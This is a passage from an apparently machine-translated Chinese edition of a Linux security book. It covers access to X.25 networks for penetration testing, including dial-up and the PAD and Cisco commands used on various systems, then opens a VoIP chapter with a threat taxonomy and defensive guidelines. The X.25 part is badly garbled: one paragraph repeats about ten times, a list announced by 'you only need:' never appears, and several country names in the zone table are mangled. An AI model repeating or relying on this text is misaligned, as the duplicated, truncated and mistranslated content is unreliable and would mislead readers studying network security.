| 636 | 埃塞俄比亚（联邦民主共和国） |

| 637 | 索马利亚民主共和国 |

| 638 | 吉布提（共和国） |

| 639 | 肯尼亚（共和国） |

| 640 | 坦桑尼亚（联合共和国） |

| 641 | 乌甘达（共和国） |

| 642 | 布隆迪（共和国） |

| 643 | 莫桑比克（共和国） |

| 645 | 赞比亚（共和国） |

| 646 | 马达加斯加（共和国） |

| 647 | 留西汪（法国省） |

| 648 | 津巴布韦（共和国） |

| 649 | 纳米比亚（共和国） |

| 650 | 马维维 |

| 651 | 莱索托（王国） |

| 652 | 博茨瓦纳（共和国） |

| 653 | 斯瓦齐尼（王国） |

| 654 | 刚罗群（伊斯兰联邦共和国） |

| 655 | 南非（共和国） |

| ZONE 7 | |

| 702 | 伯利 |

| 704 | 瓜地马拉（共和国） |

| 706 | 萨尔瓦多（共和国） |

| 708 | 洪都拉斯（共和国） |

| 710 | 尼加拉瓜 |

| 712 | 哥斯达加 |

| 714 | 巴拿马（共和国） |

| 716 | 秘鲁 |

| 区域 | 国家/地区 |

|---|---|

| 722 | 阿根廷共和国 |

| 724 | 巴西（联邦共和国） |

| 725 | 巴西（联邦共和国） |

| 730 | 千利 |

| 732 | 哥伦比亚（共和国） |

| 734 | 委内瑞拉（共和国） |

| 736 | 玻利维亚（共和国） |

| 738 | 圭亚 |

| 740 | 厄瓜多尔 |

| 742 | 法属圭亚（法国省） |

| 744 | 巴拉圭（共和国） |

| 746 | 苏南（共和国） |

| 748 | 乌拉圭（东方共和国） |

### 获取 X.25 访问的关键

渗透测试人员需要知道如何访问 PSDN 网络以执行 X.25 渗透测试。由于访问网络有很多，本节将对每种方法进行简要概述。

#### 使用 NUI 的 X.28 拨号

在渗透测试人员中，X.28 拨号是访问 PSDN 网络最常用的方法。他们使用这种方法是因为渗透测试公司可能没有直接访问 X.25，这意味着连接到系统（Linux、Cisco、Sun Solaris 或其他）的 X.25 卡，并且与当地的 X.25 运营商有活跃的 X.25 订阅。要执行 X.28 连接，你只需要：

`NUI` 代表网络用户标识（Network User Identifier）。这是 X.25 网络的登录访问权限。`NUI` 将识别 X.25 通话，每次拨叫都会计入 `NUI`，从而产生一份来自你的 X.28 `NUI` 订阅的月账单。

#### Linux 黑客防御 Linux：Linux 安全

要执行 X.28 连接，你只需要：

`NUI` 代表网络用户标识。这是 X.25 网络的登录访问权限。`NUI` 将识别 X.25 通话，每次拨叫都会计入 `NUI`，从而产生一份来自你的 X.28 `NUI` 订阅的月账单。

#### Linux 黑客防御 Linux：Linux 安全

要执行 X.28 连接，你只需要：

`NUI` 代表网络用户标识。这是 X.25 网络的登录访问权限。`NUI` 将识别 X.25 通话，每次拨叫都会计入 `NUI`，从而产生一份来自你的 X.28 `NUI` 订阅的月账单。

#### Linux 黑客防御 Linux：Linux 安全

要执行 X.28 连接，你只需要：

`NUI` 代表网络用户标识。这是 X.25 网络的登录访问权限。`NUI` 将识别 X.25 通话，每次拨叫都会计入 `NUI`，从而产生一份来自你的 X.28 `NUI` 订阅的月账单。

#### Linux 黑客防御 Linux：Linux 安全

要执行 X.28 连接，你只需要：

`NUI` 代表网络用户标识。这是 X.25 网络的登录访问权限。`NUI` 将识别 X.25 通话，每次拨叫都会计入 `NUI`，从而产生一份来自你的 X.28 `NUI` 订阅的月账单。

#### Linux 黑客防御 Linux：Linux 安全

要执行 X.28 连接，你只需要：

`NUI` 代表网络用户标识。这是 X.25 网络的登录访问权限。`NUI` 将识别 X.25 通话，每次拨叫都会计入 `NUI`，从而产生一份来自你的 X.28 `NUI` 订阅的月账单。

#### Linux 黑客防御 Linux：Linux 安全：

渗透测试人员需要知道如何访问 PSDN 网络以执行 X.25 渗透测试。由于访问网络有很多，本节将对每种方法进行简要概述。

X.28 拨号是访问 PSDN 网络最常用的方法。他们使用这种方法是因为渗透测试公司可能没有直接访问 X.25，这意味着连接到系统（Linux、Cisco、Sun Solaris 或其他）的 X.25 卡，并且与当地的 X.25 运营商有活跃的订阅。

`NUI` 代表网络用户标识。这是 X.25 网络的登录访问权限。`NUI` 将识别 X.25 通话，每次拨叫都会计入 `NUI`，从而产生一份来自你的 X.28 `NUI` 订阅的月账单。

#### Linux 黑客防御 Linux：Linux 安全：

渗透测试人员需要知道如何访问 PSDN 网络以执行 X.25 渗透测试。由于访问网络有很多，本节将对每种方法进行简要概述。

X.28 拨号是访问 PSDN 网络最常用的方法。他们使用这种方法是因为渗透测试公司可能没有直接访问 X.25，这意味着连接到系统（Linux、Cisco、Sun Solaris 或其他）的 X.25 卡，并且与当地的 X.25 运营商有活跃的订阅。

`NUI` 代表网络用户标识。这是 X.25 网络的登录访问权限。`NUI` 将识别 X.25 通话，每次拨叫都会计入 `NUI`，从而产生一份来自你的 X.28 `NUI` 订阅的月账单。

#### Linux 黑客防御 Linux：Linux 安全：

渗透测试人员需要知道如何访问 PSDN 网络以执行 X.25 渗透测试。由于访问网络有很多，本节将对每种方法进行简要概述。

X.28 拨号是访问 PSDN 网络最常用的方法。他们使用这种方法是因为渗透测试公司可能没有直接访问 X.25，这意味着连接到系统（Linux、Cisco、Sun Solaris 或其他）的 X.25 卡，并且与当地的 X.25 运营商有活跃的订阅。

`NUI` 代表网络用户标识。这是 X.25 网络的登录访问权限。`NUI` 将识别 X.25 通话，每次拨叫都会计入 `NUI`，从而产生一份来自你的 X.28 `NUI` 订阅的月账单。

#### Linux 黑客防御 Linux：Linux 安全：

渗透测试人员需要知道如何访问 PSDN 网络以执行 X.25 渗透测试。由于访问网络有很多，本节将对每种方法进行简要概述。

X.28 拨号是访问 PSDN 网络最常用的方法。他们使用这种方法是因为渗透测试公司可能没有直接访问 X.25，这意味着连接到系统（Linux、Cisco、Sun Solaris 或其他）的 X.25 卡，并且与当地的 X.25 运营商有活跃的订阅。

`NUI` 代表网络用户标识。这是 X.25 网络的登录访问权限。`NUI` 将识别 X.25 通话，每次拨叫都会计入 `NUI`，从而产生一份来自你的 X.28 `NUI` 订阅的月账单。

#### Linux 黑客防御 Linux：Linux 安全：

渗透测试人员需要知道如何访问 PSDN 网络以执行 X.25 渗透测试。由于访问网络有很多，本节将对每种方法进行简要概述。

X.28 拨号是访问 PSDN 网络最常用的方法。他们使用这种方法是因为渗透测试公司可能没有直接访问 X.25，这意味着连接到系统（Linux、Cisco、Sun Solaris 或其他）的 X.25 卡，并且与当地的 X.25 运营商有活跃的订阅。

`NUI` 代表网络用户标识。这是 X.25 网络的登录访问权限。`NUI` 将识别 X.25 通话，每次拨叫都会计入 `NUI`，从而产生一份来自你的 X.28 `NUI` 订阅的月账单。

#### Linux 黑客防御 Linux：Linux 安全：

渗透测试人员需要知道如何访问 PSDN 网络以执行 X.25 渗透测试。由于访问网络有很多，本节将对每种方法进行简要概述。

X.28 拨号是访问 PSDN 网络最常用的方法。他们使用这种方法是因为渗透测试公司可能没有直接访问 X.25，这意味着连接到系统（Linux、Cisco、Sun Solaris 或其他）的 X.25 卡，并且与当地的 X.25 运营商有活跃的订阅。

`NUI` 代表网络用户标识。这是 X.25 网络的登录访问权限。`NUI` 将识别 X.25 通话，每次拨叫都会计入 `NUI`，从而产生一份来自你的 X.28 `NUI` 订阅的月账单。

#### Linux 黑客防御 Linux：Linux 安全：

为了连接到 X.25 PAD，你需要启动一个仿真器并对其配置。渗透测试人员还会发现 `show x25 map` 命令很有用，因为它列出了 IP 和 X.25 之间的网络映射：这在分析私有 X.25 网络时常见，但在公共 X.25 网络也可以找到。另一个有用命令是 `sh x25 route`，它列出了由 Cisco 管理的 X.25 路由，这些路由可能与数据、语音或其他信息有关。

如果你有 Cisco 的密码，分析整个配置（`show run` 或 `show conf`）将允许你看到 X.25 的配置。

### VAX/VMS 或 AXP/OpenVMS

如果渗透测试人员获取了了VMS 或 OpenVMS 机器的访问权限，请检查它们是否连接到 X.25 网络。执行 X.25 通话，使用 `set host/x29 [NUA]` 命令。在 OpenVMS 6.0 之前的系统上，以及所有 VMS 机器上，你可能会发现用于获取与 X.25 网络相关信息的 NCP 工具。运行 NCP (MCR) 将启动 NETACP .EXE 程序。在 `NCP>` 提示符下输入命令 `MCR SHOW KNOWN DTE, SHOW KNOWN CIRCUIT, SHOW KNOWN LINE` 以获取关于 `*VMS` 机器 X.25 地址、电路和线路的详细信息。

# 攻防破解 Linux：Linux 安全秘密与解决方案

## *NIX 系统

在进行 NIX 系统的安全测试时，你可能会遇到安装了 X.25 卡且具有可用 X.25 链路的特定操作系统。执行 X.25 调用的命令在每个操作系统上都不同。以下是大多数随操作系统分发 X.25 PAD 的系统列表：

- DG/UX (Data General Avionion) 使用 `pad` 命令，语法为 `pad nua`。如果你单独启动该程序，你将看到提示符：`nua`。在这种情况下，正确的使用语法为 `C nua` 或 `C A. nua`。X.25 配置文件可以在 `/usr/opt/x25/` Find，而默认 PAD 参数在 `/usr/opt/x25/etc/x3defaults` 中。如果你因为自定义配置的 X.25 PAD 设置遇到反复出现的问题，这些可能会很有用。

- IBM AIX 使用 `pad` 命令 `xu`。正确的语法是 `xu nua`。

- SCO SYSTEM V 使用 `pad` 命令 `xpad -d nua`。注意如果你不指定 `-d` 标志，你的 X.25 调用将无法工作。

- SUN/OS SOLARIS 如果机器上安装了 SunLink 软件，使用 `pad` 命令，语法为 `pad -t 0 nua`。你可以在 `/opt/SUNWconn/bin/pad` 和 `/opt/SUNWconn/bin/pad` 找到有配置文件。

- BULL PAD 正你从此操作系统的发行名称（在 BULL 服务器 DP 和 XPS 系列上运行）中意识到，X.25 调用命令是 `pad A.nua` 或在这种情况下，在提示符处输入 `C.nua` 用于 DG/UX 系统。在该操作系统的旧版本上，使用 `tpad` 命令。

- HP-UX 启动 X.25 PAD 使用 `padem`。执行后，你将获得标准的 X.3 PAD 提示符 (*)。插入你想调用的 NUA。

- DIGITAL ULTRIX 在此操作系统上，使用 `PAD` 命令 `x29login`。

在其他操作系统和或 Linux 发行版上，运行命令 `find / -name '*' -print` 来发现所有可能的不同可执行文件名称（tpad, lpad, cpad, padem, pademu）。

### 总结

采用新技术并不会自动让你对所有危险产生免疫。尽管互联网可能是当今 IT 世界中最可能的攻击媒介，但攻击仍然构成了真实的威胁。

旧式的 PSTN、ISDN 和 PSDN 连接仍然深植于所有现代网络。今天的安全专业人员可能认为，保持知识与时同步是保持网络安全的最重要的因素，但对过去危险的良好理解是一项巨大的资产。

消除这些风险最重要的一步是承认它们的存在。内部网络与外部世界之间的所有连接都是潜在的攻击点，应该根据一致适的安全策略进行加固。模拟调制解调器似乎是一个不太可能的目标，因此忙碌的安全专业人员可能会忽略它，但一个有耐心的攻击者不会。

## 第 7 章

### 案例研究

Rapid Red Services, Inc. 自从将所有长途电话切换到 Telemetry（一家区域 VoIP 提供商）以来，对新节省的开支感到非常满意。VoIP 的商业案例证明是一个很容易推销。然而，当最新的账单落到 Glen Smith 的桌上时，他知道有些不对劲。


作为首席信息官（CIO），Smith 知道这类问题可能根源很深。已经在行业内做了足够久，知道没有“机器中的幽灵”这种事。公司的 VoIP 使用量绝不可能在一个月内增加 1000%。黑客一定参与了其中。

当他处理技术问题时，Smith 直接处理账单问题。然而，正如 Smith 最初怀疑的那样，Telemetry 否认了任何错误行为并拒绝退款。该公司声称通话是在 Rapid 的主干线上经过合法验证的，而且似乎是凭空产生的。

# 破解 Linux 安全：安全机密与解决方案

语音过 IP（VoIP）是指通过互联网或任何其他 IP 网络传输语音。它的架构与传统的电路交换电话系统完全不同，尽管它们具有相同的目的。在经典电话系统中，每段对话都有一个物理电路和一套专门用于其管理的专用基础设施。在 VoIP 环境中，语音和信令是复路用的，并作为普通数据在常规的包交换 IP 网络中传输。

从概念上讲，VoIP 解决方案在许多方面都优于传统的公共交换电话网（PSTN）电话线路。正因如此，它提供了一种更廉价、更清晰的替代方案，并可能占据电话市场的大部分份额。事实上，最受关注的 VoIP 特性是其节省成本的潜力。通过放弃公用电话网络，长途电话变得非常廉价。VoIP 同样有效，因为一个机构的所有电子流量（电话和数据）都可以汇聚到一个物理网络中，从而避免了对独立分机交换机（PBX）线路的需求。虽然初始成本很高，但在日益以互联网为中心的世界里，通过仅管理一个网络并消除维护旧电话系统的需求，可以节省大量费用。

VoIP 系统的灵活性非常有吸引力，但将安全措施集成到这项仍在演进的技术中非常复杂。VoIP 对话通过适当的压缩/解压缩器（CodecDec）编码并在传统网络上流传输，其行为类似于普通的 IP 数据，但同时，它们必须遵守经典电话系统在服务质量和可用性方面施加的规则。开发一个尊重这些限制的健壮架构并非易事，而 VoIP 仍然是一项相对较新的技术，这一事实使其变得更加困难。尽管在不不久的将来可能会出现一个真正的标准，但到目前，你可以从许多不同的架构和协议中进行选择。由于尚未开发出广泛的标准，VoIP 解决方案可能包含许多有元素，这为这种新技术的强度增加了不确定性，并限制了机构的选择。

本章介绍了 Linux 用户在审计和保障语音及数据网络安全方面面临的挑战，并概述了帮助保护机构 VoIP 基础设施所需的步骤。

# VoIP 攻击分类法

VoIP 受到继承自数据网络和电话系统的安全问题影响。涉及信令协议操纵的经典电话安全攻击在 VoIP 中也有相应的对应物，攻击者的主要目的仍然是——欺诈。另一方面，数据网络安全问题要复杂得多，并且比传统的干扰提供了更广泛的攻击途径。从物理层到应用层，所有网络安全项目与 VoIP 安全都相关。从暴露性来看，在互联网上传输语音数据增加了攻击面，并无疑会导致针对该技术的攻击增加。此外，VoIP 两个冲突层面的协同效应也产生了新的威胁，例如基于信令协议的拒绝服务（DoS）。

# 第 7 章：基于 IP 的 VoIP

在介绍 VoIP 环境中一些潜在攻击向量之前，我们将详细说明此类环境经常面临的特定威胁。这种讨论是非常重要的，因为机构面临的威胁种类决定了其保障通信设备安全的优先顺序。也就是说，并非所有威胁都出现在所有机构中：一家商业公司可能主要关注话费欺诈，而政府机构可能由于隐私或国家安全考量而需要防止敏感信息的泄露。

信息安全需求通常分为以下三类：

- **机密性（Confidentiality）**：保持信息安全和私密。这包括敏感数据和安全相关信息（如密码），无论是存储在计算机中还是跨网络传输。
- **完整性（Integrity）**：信息必须不被未经授权的用户更改。电信交换机必须保护其系统数据和配置的完整性，以防止交换机数据被破坏性的修改、破坏或泄露。
- **可用性（Availability）**：信息和服务在需要时可用。可用性是交换机最显而易见的风险。利用软件或协议漏洞的攻击可能导致功能退化甚至完全中断。

将机密性/完整性/可用性（CIA）范式应用于 VoIP 技术，会产生 VoIP 基础设施所面临的特定威胁。

**话费欺诈（Toll Fraud）** 无论是消费者试图欺骗电话公司，还是电话公司试图欺骗消费者，亦或是第三方试图欺骗他们中的任何一方，欺诈几乎一直是电话系统的组成部分。正如前面提到的，VoIP 已经继承了这种针对特定类别网络的威胁。入侵者通过对通话进行欺诈的攻击，利用 VoIP 基础设施来拨打免费或廉价的电话，这还可能看起来像是源自受攻击 VoIP 网络内部的合法用户（“呼叫者 ID 伪造”）。许多攻击并不仅仅是为了欺骗 VoIP 运营商；它们还可能成为巨大的获利机会，因为入侵者可以建立自己的 VoIP 网关并使用盗取的凭据创建中线。此中线稍后可以在开放市场上转售给他人，其中许多人并不知道欺诈性质。

**通话窃听与追踪（Call Eavesdropping and Tracing）** 窃听被定义为非预期的接收者拦截对话。对于传统电话，窃听通常需要物理访问分接线路或穿透交换机。随后，传统的 PBX 拥接入点比 VoIP 系统少。在这种情况下，由于缺乏入口点，且如果入侵者尝试物理访问，被捕获的概率增加，窃听的可能性较低。由于包交换网络中有许多节点，在 VoIP 系统上进行窃听的机会更加丰富。寻求机密信息的入侵者将对未加密的电话通话进行特定攻击。无需说，窃听可能对机构产生重要且意料之外的后果。一个相关的威胁是通话追踪。在这种情况下，攻击者对对话的实际内容不感兴趣，只对通话源地和目的地的身份、通话时长以及计费金额（以及其他类似的通话详细单 CDR）感兴趣。

**通话劫持（Call Hijacking）** 在传统和 VoIP 电话系统中，通话劫持是指对话的一个端点与攻击者交换。一个典型的场景涉及通话安全的中间人（MITM）攻击。入侵者能够读取、插入和修改双方之间的任何消息，而双方都不知道连接已被破坏。在 VoIP 环境中，通话劫持产生的后果与窃听相似，但它还会影响通信的完整性。

**呼叫者 ID 伪造（Caller ID Spoofing）** 呼叫者 ID 是一种电话智能网服务，在接听之前向被叫方电话设备发送号码（有时还有名称）。在网络安全背景下，伪造攻击是指一个人或程序通过伪造数据成功装成他人从而获得非法利益。这种攻击在 VoIP 中比传统电话更容易实施。伪造任意呼叫者 ID 可能有助于绕过验证机制并辅助社交工程攻击。由于这些原因，它对机构的安全具有重要影响。

**拒绝服务（Denial of Service）** 在网络安全背景下，拒绝服务（DoS）攻击试图使计算机或网络服务对预期用户不可用。DoS 攻击针对 VoIP 基础设施和数据网络，从物理层到应用层。它们主要有两种形式：泛洪（网络、系统或服务被更大更强的源淹没）和中断（系统或服务被强制重置，或网络配置信息如路由参数被篡改）。任何网络都可能受到 DoS 攻击，但由于 VoIP 技术对丢包或延迟的高度敏感性，这一问题变得更加严重。

为了创建一个稳固且连贯的 VoIP 分类法，并在此基础上构建完整的 VoIP 审计框架，我们深入研究了该主题并概述了一个分层分类。由于 VoIP 是一个非常复杂的领域，我们采用了分而治之的方法来简化任务。因此，攻击被组织为以下四类（见图 7-1）：

- 网络攻击：与收敛网络的架构相关
- 系统攻击：针对传统设备和 VoIP 网络元素的攻击
- 信令攻击：与所使用的信令协议（H.323、SIP 等）相关的攻击
- 传输攻击：与所使用的媒体传输协议（RTP、RTCP 等）相关的攻击

接下来的章节将关注 VoIP 环境中一些潜在的攻击向量，以及它们对 CIA 范式所定义的安全需求的影响。此处描述的漏洞是通用的，可能并不适用于所有环境和配置，但它们在对大量 VoIP 部署的安全审计中都已发现过。这些信息并不意味着详尽。最后，新且快速涌现的技术和协议设计能够从根本上改变我们所熟知的 VoIP；因此，我们的分类法可能很快就会（部分）过时。

尽管如此，这些信息应该为熟悉 VoIP 技术的安全审计员提供一个良好的起点，并为已经活跃在这一领域的专业人士提供坚实的参考。

## 网络攻击

VoIP 网络的成功运行依赖大量的配置参数：最终用户终端、路由器、防火墙的 IP 和 MAC 地址，以及用于放置和路由通话的呼叫处理组件等 VoIP 专用元素。许多网络参数在每次网络组件重启或添加到网络时都是动态建立的。由于网络有许多位置，入侵者可以从广泛的潜在攻击点中进行选择。

### 传统 IP 网络攻击

| 流行度: | 10 |
| :--- | :--- |
| 简单性: | 8 |
| 影响: | 10 |
| 风险评分: | 9 |

通常情况下，传统有线（以及无线或现有的）IP 网络中存在的从物理层到应用层的所有漏洞，也适用于 VoIP 环境。

取决于目标和入侵者攻击的程度，CIA 范式的每项要求都可能受到破坏，具体导致电话诈骗、通话窃听和追踪、通话劫持、来电 ID 伪骗以及拒绝服务。

> 要学习如何防止针对传统 IP 网络的攻击，请参考第 5 章。

### 汇敛网络攻击

| 流行度: | 6 |
| :--- | :--- |
| 简单性: | 7 |
| 影响: | 10 |
| 风险评分: | 8 |

VoIP 的独特性为现有网络技术增加了许多安全关注。具体而言，数据和语音网络的汇敛可能会引入新的攻击途径：

- 通过终端访问进行 VLAN 跳跃：利用通常配置为中继（trunking）的电话端口
- 网络嗅探：收集用于枚举和侦察的有用信息，例如扩展 IP 地址映射
- QoS 破坏：如果在交换机节点未强制最大带宽
- 其他针对低级协议的特定攻击：包括 Cisco 发现协议 (CDP)

此外，支持 VoIP 的防火墙可能会带来一些新的意料之外的漏洞，而与传统 PSTN 网络的连接可能成为愿意玩弄 SS7、MGCP、Megaco/H.248 等技术的攻击者的肥肉目标。最后，汇敛网络引入了令人烦恼的现象，如互联网电话垃圾邮件（俗称为 SIP）、VoIP 诈骗（VoIPishing）和 VoIP 恐扰。

与传统的 CIA 范式一样，所描述的攻击可能会破坏电话诈骗、通话窃听和追踪、通话劫持、来电 ID 伪骗以及拒绝服务的限制。

## 防止汇敛网络攻击

正如所讨论的，语音和数据的整合使得建立安全的 VoIP 基础设施成为一个复杂的过程，所需的精力比仅限数据网络所需的更多。设计、部署和安全地运行 VoIP 网络是一项复杂的任务，需要仔细的准备。对于所希望的问题不存在通用的解决方案；因此，组织必须彻底调查其网络布局，以及哪种方案最适合自己。

随着 VoIP 的引入，安全需求变得更加复杂，因为必须保护宝贵的资产：对话现在是必需的。在传统的办公电话系统中，安全性通常是有预设的，因为截获对话需要对电话线进行物理访问或破坏交换机（PBX）。由于由于原因，特别是对安全敏感的组织会对传统电话线上的语音流量进行加密。基于互联网的连接则不能如此。在互联网上发送未加密数据的风险要大得多。由于目前的互联网架构不提供与传统 PSTN 电话线相同的物理安全性，保护 VoIP 的关键是使用与数据网络中部署类似的的安全机制（防火墙、加密等），来模拟 PSTN 用户目前享有的安全性。

计算机安全的通用原则也适用于 VoIP，但另有一些额外的考虑。接下来的章节将研究与 VoIP 相关的攻击和防御，并介绍指南和建议，以便以合理的成本提供适当的安全级别，从而消除或减少被破坏的风险。这些安全指南可以分为三类：

- 程序安全指南：旨在提高网络安全管理操作的有效性
- 网络安全指南：旨在提高网络通信的安全性
- 系统安全指南：旨在提高网络设备、服务器和管理工作站的安全性

计划部署 VoIP 基础设施的组织应从以下通用建议开始，并实际考虑（如成本或法律要求）可能根据特定情况进行调整。此外，在部署自定义软件时，还必须考虑常见的应用程序安全指南（例如建立软件开发生命周期，或 SDLC）。

## 程序安全指南

在部署 VoIP 系统时仔细评估安全风险。当部署新技术时，会创建一个特别具有挑战性的安全环境。组织应该考虑潜在问题，包括他们对该技术的知识和培训水平、安全实践的成熟度和质量、控制、策略和架构。此外，将 VoIP 系统集成到已经拥堵或过载的网络中，对组织的技术基础设施可能是灾难性的。组织应该进行仔细的调查，以找出在功能和安全性方面最好的解决方案。

定期进行安全审计。还要进行漏洞威胁评估。人员不断发现新问题，新软件不断引入漏洞。为了随着时间的推移和变化保持安全性，必须经常对系统（包括 IP 电话）、流程和自定义应用程序软件进行测试，涵盖网络角度（定期对远程访问进行渗透测试）和实验室环境（DoS 测试和对设备的物理访问）。此外，部署欺诈检测措施，如账单核对。VoIP 商应尽可能每天（如果每小时）与同行核对 CDR（通话详细记录）使用。

仔细审查隐私和数据保留要求。并在专业法律顾问的陪同下进行。虽然有关 VoIP 的法律问题远超本章范围，但读者应该意识到，监管 VoIP 线路截获和日志记录保留的法律可能与传统系统不同。

## 网络安全指南

将语音和数据分离在不同的网络上。尽可能做到这一点，在与 PSTN 接口的语音网关处禁用 VoIP 协议，并实施配置良好的 VLAN。如果可行，应为语音和数据流量使用具有 IP 地址块和 DHCP 服务器的不同子网，以便整合入侵检测/防御和 VoIP 防火墙保护。此外，谨慎使用软电话，因为常见的工作站漏洞对大多数组织来说会产生不可接受的高风险。

## 第 7 章：IP 之 VoIP 189

部署支持 VoIP 的防火墙技术。这允许语音流量通过状态检测数据包过滤器。有多种依赖协议和不依赖协议的解决方案，包括应用层网关、中间件应用程序代理以及日益流行的边界控制器。此外，组织还应该使用其 VoIP 系统提供的额外安全功能和协议，例如针对 H.323 的 H.235 安全配置文件以及针对 SIP 的 RFC 3261 安全特性，并考虑部署检测和预防系统来监控可疑的网络活动。所有这些安全解决方案可能有助于防止攻击，但 VoIP 网络的部署不应仅基于

如果性能是一个问题，请在网关处使用加密。不要在单个终端上启用。由于大多数 VoIP 终端的计算能力不足以执行加密，将此负担置于中心节点可以确保至少从企业网络发出的语音流量都经过了加密。

## 系统安全指南

### 系统攻击

VoIP 系统有多种形式。几乎任何个人电脑都能提供 VoIP 服务。特别是 Linux 平台，提供了大量的 VoIP 供选择。通常，VoIP 一术与能够拨号电话号码并与连接另一端拥有 VoIP 终端或传统模拟电话的人进行通信的设备相关联。

对 VoIP 服务需求的日益增长导致了广泛的用户端产品，包括：

- *传统电话手筒*：通常这些设备具有带有拨号盘简单手筒之外的额外功能。例如，许多设备带有小型 LCD 屏幕，可以提供浏览、即时消息或电话簿。在配置手筒以访问增强功能（如会议室）时，也可以使用这些手筒。
- *移动单元*：虽然如果配置不当，无线 VoIP 产品可能会带来额外的安全挑战，但它们正变得越来越流行——尤其是由于许多组织已经安装了 802.11 WiFi 网络设备。

## 《黑客攻防 Linux：Linux 安全机密与解决方案》

- *软电话 (Softphones)*：通过耳机、软件和廉价的连接服务，任何工作站都可以用作 VoIP 单元，通常被称为软电话。在安全和隐私有严严格考虑的情况下，应避免使用软电话系统。个人电脑中常见的软件漏洞会导致在使用软电话时产生不可接受的高风险。此外，使用软电话系统与在实际范围内尽可能分离语音和数据网络的需求相冲突（见上一节“防止收敛网络攻击”）。

除了用户端单元，VoIP 基础设施中常用的其他网络元素还包括：

- *媒体网关 (MGs)*：它们代表了电路交换网络与 IP 网络之间的接口。MG 专注于音频信号翻译功能，执行模拟/数字转换、呼叫建立和接收以及质量改进功能（如压缩或回消除）。
- *媒体网关控制器 (MGCs)*：它们处理 MG 与其他网络组件之间的信令数据，可以作为 H.323 网关或 SIP 服务器，或通过 SS7 信令网关进行。单个 MGC 可以控制多个 MG，在部署大型系统时可以降低成本。
- *防火墙和会话边界控制器 (SBCs)*：无论是保护局域网、封装 DMZ 还是仅仅为单台计算机提供保护，防火墙通常是当今 IP 网络防御外部攻击者的第一道防线。如前所述，将防火墙引入 VoIP 网络使 VoIP 的某些方面复杂；特别是动态端口上的通信和呼叫建立程序。为了解决防火墙和 NAT 给 VoIP 带来的问题，可以使用 SBC 对涉及建立、连接和拆除呼叫的信号和媒体流进行控制。此外，它们还可以充当应用层网关的功能，并控制通过其所在网络进行的呼叫类型。
- *传统网络服务*：VoIP 部署需要一些传统的网络服务，如 DNS、DHCP、TFTP、SNMP、LDAP 等。此外，无论携带的流量类型如何，所有 IP 网络都依赖传统的网络设备——交换机、路由器和可能的无线访问点。

最后，根据所选信令标准，可能会部署其他专用设备，如呼叫管理器、网关、后端服务器等。这些特殊设备在呼叫建立过程中的作用将在本章稍后的“VoIP 网络元素攻击”部分中进行详细介绍。

当然，VoIP 的漏洞不仅包含 VoIP 设备本身的固有缺陷，还包含 VoIP 所依赖的底层操作系统、应用程序和协议的缺陷。因此，识别出了针对 VoIP 环境中设备和网络服务的两大类攻击。

## 传统服务和设备攻击

| 指标 | 数值 |
| :--- | :--- |
| 流行度 | 10 |
| 简单性 | 7 |
| 影响 |  |
| 风险等级 | 9 |

无论携带的流量类型如何，IP 网络都需要：

- 标准设备，如交换机、路由器、无线访问点等。
- 传统服务，如 DNS、DHCP、TFTP、SNMP、LDAP、后端数据库、Web 应用等。
- 监控和管理工作站

所有这些组件都可能受到与其软件和配置相关的漏洞的影响，从而允许入侵者执行服务器端和客户端攻击，可能危及 CIA 范式的每项要求。

取决于目标和攻击范围，这可能导致电话费诈骗、窃听和追踪、呼叫劫持、主叫 ID 欺骗和拒绝服务。

> 要了解如何防止针对传统 IP 服务和设备的攻击，请参阅第 5 章。

## VoIP 网络元素攻击

| 指标 | 数值 |
| :--- | :--- |
| 流行度 | 7 |
| 简单性 | 8 |
| 影响 | 10 |
| 风险等级 | 8 |


最广泛使用的 VoIP 信令竞争标准是国际电信联盟标准化部门（ITU-T）的 H323 和互联网工程任务组（IETF）的会话发起协议（SIP）。最初 H323 是流行的协议，尽管其流行度有所下降，且有人认为 SIP 将成为主导。然而，在真正主导的标准出现之前，迁移到 VoIP 的组织应该考虑 H323 和 SIP。因此，在接下来的节中我们将介绍这两个规范，并描述部署的设备。

### H323 架构

H323 是跨数据包网络的音频视频通信 ITU-T 标准。它实际上是一个封装标准，包含了多个协议，包括 H225、H245 等。这些每个协议在呼叫建立过程中都起着特定的作用。它们都是基于 ASN.1 标准的二进制协议，且除一个外都在动态端口上工作。

H323 网络（见图 7-2）通常由多个终端（终端）、网关以及可能的边界控制器、后端服务（BES）和多点控制单元（MCU）组成。

网关作为 H323 网络与外部世界之间的桥梁。这包括 SIP 和传统的 PSTN 网络。边界控制器是 VoIP 网络中可选但广泛使用的组件。它通常是 H323 架构中的主要组件之一，提供地址解析和带宽控制。如果存在边界控制器，可能还存在后端服务，用于维护终端的数据，包括其权限、服务和配置。最后，多点控制单元是另一种可选的网络元素，用于促进两个以上终端之间的多点会议和其他通信。



图 7-2 H323 架构

- 1. 边界控制器路由的 H225/H245 信令和媒体流
- 2. 对 BES 的查询和响应
- 3. 无边界控制器路由的 H225/H245 信令和媒体流
- 4. 与外部世界的通信
- 5. 用于多点通信和会议的可选网络元素

H.323 标准中定义了四种呼叫模型：

- 通过网关（Gatekeeper）路由并带有网关路由 H.245 信令的呼叫
- 通过网关路由但带有直接 H.245 信令的呼叫
- 带有网关的直接路由呼叫
- 不带网关的直接路由呼叫

